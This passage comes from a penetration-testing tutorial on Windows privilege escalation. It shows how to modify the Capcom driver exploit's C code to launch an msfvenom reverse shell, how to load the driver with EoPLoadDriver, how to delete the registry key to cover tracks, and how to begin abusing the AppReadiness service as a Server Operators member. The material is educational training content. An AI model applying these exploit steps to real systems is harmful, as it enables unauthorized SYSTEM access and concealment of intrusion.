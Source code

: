 This launches a shell with SYSTEM privileges.

If we do not have GUI access to the target, we will have to modify the ExploitCapcom.cpp code before compiling. Here we can edit line 292 and replace `C:\\Windows\\system32\\cmd.exe`{: .filepath} with, say, a reverse shell binary created with msfvenom, for example: `c:\ProgramData\revshell.exe`{: filepath}.
```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

The **CommandLine** string in this example would be changed to:
```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process:
```console
C:\zeropio> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

We can cover our tracks a bit by deleting the registry key added earlier
```console
C:\zeropio> reg delete HKCU\System\CurrentControlSet\Capcom
```

> Since Windows 10 Version 1803, the **SeLoadDriverPrivilege** is not exploitable, as it is no longer possible to include references to registry keys under **HKEY_CURRENT_USER**.
{: .prompt-info}

## Server Operators 

The Server Operators group allows members to administer Windows servers without needing assignment of Domain Admin privileges. Let's examine the **AppReadiness** service. We can confirm that this service starts as SYSTEM using the `sc.exe` utility:
```console
C:\zeropio> sc qc AppReadiness
```

We can use the service viewer/controller [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice).  PsService works much like the sc utility and can display service status and configurations and also allow you to start, stop, pause, resume, and restart services both locally and on remote hosts.
```console
C:\zeropio> PsService.exe security AppReadiness
```
